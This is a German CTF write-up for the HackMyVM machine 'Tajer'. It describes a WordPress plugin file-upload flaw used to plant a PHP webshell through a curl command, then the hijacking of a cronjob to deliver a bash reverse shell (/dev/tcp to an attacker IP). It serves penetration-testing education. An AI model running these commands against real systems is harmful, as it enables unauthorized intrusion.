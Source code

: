 # Tajer - HackMyVM (Medium)
 
![Tajer.png](Tajer.png)

## Übersicht

*   **VM:** Tajer
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Tajer)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 14. April 2024
*   **Original-Writeup:** https://alientec1908.github.io/Tajer_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Tajer"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Ausnutzung einer "Unauthenticated Arbitrary File Upload"-Schwachstelle im WordPress-Plugin "tajer". Mittels `curl` wurde eine PHP-Webshell (`shell.php`) hochgeladen, was zu Remote Code Execution (RCE) als `www-data` führte. Während der Post-Exploitation als `www-data` wurde durch Prozess-Monitoring (`pspy` oder ähnliches, impliziert) ein Cronjob entdeckt, der regelmäßig als Benutzer `kevin` (UID 1001) ein Skript (`k3vin`) von einem internen Hostnamen (`password.wordpress.hmv`) herunterlud und ausführte. Durch Manipulation der `/etc/hosts`-Datei (oder einer bereits vorhandenen Konfiguration), sodass dieser Hostname auf die IP des Angreifers zeigte, konnte ein eigenes `k3vin`-Skript (eine Reverse Shell) ausgeliefert werden. Dies führte zu einer Shell als Benutzer `kevin`. Die weiteren Schritte zur Root-Eskalation sind im bereitgestellten Log nicht dokumentiert.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `curl`
*   `vi` (oder anderer Texteditor)
*   `python3` (für `http.server`)
*   `nc` (netcat)
*   `stty` (impliziert für Shell-Stabilisierung)
*   Standard Linux-Befehle (`cat`, `echo`, `ls`, `id`)
*   Impliziert: `arp-scan`, `nmap`, `gobuster`, `wpscan` (für initiale Entdeckung von WordPress und Plugin)
*   Impliziert: `pspy` oder ähnliches (zur Entdeckung des Cronjobs)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Tajer" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   *Die initialen Schritte (Nmap, Gobuster etc.) zur Identifizierung von WordPress und dem "tajer"-Plugin sind im Log nicht explizit gezeigt, werden aber für den Exploit vorausgesetzt.*
    *   Identifizierung einer "Unauthenticated Arbitrary File Upload"-Schwachstelle im WordPress-Plugin "tajer" (Referenz: `https://wpscan.com/vulnerability/655bc140-5bbf-4a7e-b20d-4343a75c0c67/`).

2.  **Initial Access (RCE via File Upload & Wechsel zu `kevin`):**
    *   Hochladen einer PHP-Webshell (`shell.php`) mittels `curl -F "files=@shell.php" http://tajer.wordpress.hmv/wp-content/plugins/tajer/lib/jQuery-File-Upload-master/server/php/index.php`.
    *   Die Serverantwort bestätigte den erfolgreichen Upload und lieferte die URL zur Webshell.
    *   *Der Wechsel von der Webshell zu einer interaktiven Shell als `www-data` ist im Log nicht explizit gezeigt, wird aber für die folgenden Schritte angenommen.*
    *   Prozess-Monitoring (impliziert, z.B. durch `pspy`) als `www-data` offenbarte einen Cronjob, der als Benutzer `kevin` (UID 1001) regelmäßig ein Skript (`k3vin`) von `http://password.wordpress.hmv/k3vin` herunterlädt und ausführt.
    *   Die `/etc/hosts`-Datei auf dem Zielsystem enthielt (oder wurde manipuliert, um zu enthalten) einen Eintrag, der `password.wordpress.hmv` auf die IP des Angreifers (`192.168.2.199`) auflöste.
    *   Erstellung eines bösartigen `k3vin`-Skripts auf der Angreifer-Maschine, das eine Reverse Shell enthielt (z.B. `bash -i >& /dev/tcp/192.168.2.199/4444 0>&1`).
    *   Starten eines Python HTTP-Servers auf der Angreifer-Maschine (Port 80), um `k3vin` auszuliefern.
    *   Starten eines `nc`-Listeners auf der Angreifer-Maschine (Port 4444).
    *   Als der Cronjob das Skript `k3vin` vom Angreifer-Server lud und ausführte, wurde eine Reverse Shell als Benutzer `kevin` auf dem Listener des Angreifers etabliert.

3.  **Privilege Escalation (zu `root`):**
    *   *Die Schritte zur Eskalation der Rechte von `kevin` zu `root` sind im bereitgestellten Log nicht dokumentiert.*

## Wichtige Schwachstellen und Konzepte

*   **Unauthenticated Arbitrary File Upload (WordPress Plugin "tajer"):** Eine kritische Schwachstelle im Tajer-Plugin erlaubte das Hochladen beliebiger Dateien (hier eine Webshell) ohne Authentifizierung, was zu RCE führte.
*   **Unsicherer Cronjob / Skript-Ausführung:** Ein Cronjob lud ein Skript von einer per HTTP erreichbaren Quelle herunter und führte es aus. Der Hostname konnte über `/etc/hosts` manipuliert werden, um ein bösartiges Skript vom Angreifer zu laden.
*   **DNS/Hosts-Datei-Manipulation (impliziert):** Der Hostname für den Skript-Download wurde auf die IP des Angreifers umgeleitet.
*   **Remote Code Execution (RCE):** Sowohl durch die Webshell als auch durch das ausgelieferte `k3vin`-Skript.

## Flags

*   **User Flag (`/path/to/user.txt`):** `USER_FLAG_PLATZHALTER` (Weg zur Erlangung nicht im Log als `kevin` dokumentiert)
*   **Root Flag (`/path/to/root.txt`):** `ROOT_FLAG_PLATZHALTER` (Weg zur Erlangung nicht im Log dokumentiert)

## Tags

`HackMyVM`, `Tajer`, `Medium`, `File Upload Vulnerability`, `RCE`, `WordPress Plugin`, `Tajer Plugin`, `Cronjob Exploitation`, `Hosts File Manipulation`, `Linux`, `Web`, `Privilege Escalation` (teilweise)
